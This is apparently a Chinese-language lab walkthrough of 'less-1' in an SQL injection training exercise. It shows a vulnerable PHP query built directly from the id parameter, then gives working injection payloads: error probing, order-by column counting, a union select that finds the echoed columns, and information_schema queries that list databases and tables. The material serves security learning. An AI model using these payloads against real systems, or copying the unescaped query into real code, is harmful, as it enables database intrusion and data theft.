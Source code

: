 ```yaml
---
categories:
    - Sqlli
tags:
    - Sqlli
    - PHP 
---
```

## less-1 
##### index.php

```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
添加`'`提示报错
![image](https://note.youdao.com/yws/res/10839/C90A67642D8B4839B6E2C391E9504826)

使用`'and 1=1 --+` 判断存在注入  
使用`order by ` 判断字段列数,4时报错,说明有3列
![image](https://note.youdao.com/yws/res/10849/8215A0A3FF314E66BCAF29C469BF4D10)

使用`union select` 查询判断回显位置：

```
-1' union select 1,2,3 --+
```
![image](https://note.youdao.com/yws/res/10858/FFC33056E5C244EAA69FBC674C928A78)

可使用`union select`继续查询数据
> user() 获取当前用户用户  
> database() 获取当前数据库  
> version() 获取数据库版本  
> @@version_compile_os 获取操作系统版本

![image](https://note.youdao.com/yws/res/10864/5323FF7D87A9425F8C73A8FF4FA8A025)

获取所有数据库名：

```
select group_concat(SCHEMA_NAME)from information_schema.schemata
```
![image](https://note.youdao.com/yws/res/10871/216D62ECE32A442B9DE7A60892FE7D22)

获取所有的表名:

```
select group_concat(TABLE_NAME)from information_schema.tables where table_schema=database()
```
![image](https://note.youdao.com/yws/res/10878/B78884565FC241F2820D40C9D836C858)
